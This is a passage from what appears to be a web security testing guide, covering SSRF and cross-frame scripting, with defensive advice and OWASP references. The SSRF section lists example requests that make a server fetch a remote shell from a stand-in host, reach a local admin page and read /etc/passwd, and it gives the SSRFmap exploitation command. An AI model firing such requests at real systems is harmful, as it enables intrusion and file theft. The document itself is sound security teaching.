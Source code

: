 Reference: [WSTG-INPV-18 - Testing for Server-side Template Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection.html)

##### Testing for Server-Side Request Forgery

SSRF is an attack vector that abuses an application to interact with the internal/external network or the machine itself.

![SSRF](SSRF.png)

The most common methods to detect SSRF are local and remote file inclusion.

```bash
GET https://example.com/page?page=https://malicioussite.com/shell.php
GET https://example.com/page?page=http://127.0.0.1/admin
GET https://example.com/page?page=file:///etc/passwd
```

[SSRFmap](https://github.com/swisskyrepo/SSRFmap) is intended to become the SQLmap of the SSRF vulnerability. It allows you to exploit the vulnerable parameters of a request in a very simple and efficient way.

```bash
python3 ssrfmap.py -r REQFILE -m MODULES
```

:white_check_mark: How to protect against or detect that technique:

- Perform "Input validation" to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. (cc [Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html))

Reference: [WSTG-INPV-19 - Testing for Server-Side Request Forgery](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)

##### Testing for Cross Frame Scripting

Cross-frame scripting (XFS) is an attack technique that uses malicious JavaScript to access user data from a legitimate third-party page loaded into an HTML iframe.

XFS attacks exploit specific browser bugs.

Under normal circumstances, cross-frame scripting should not be possible because of same-origin policy scripts shouldn’t have access to pages loaded from different servers, including access to their events.
However, specific browser bugs might make it possible for a parent frame to access a child frame loaded from a different origin.

A successful XFS attack requires all of the following to be true:

- The user receives and opens a malicious URL.
- The user’s browser has a buggy implementation of same-origin policy.
- The legitimate website that lures the user allows itself to be embedded in an iframe.

:white_check_mark: How to protect against or detect that technique:
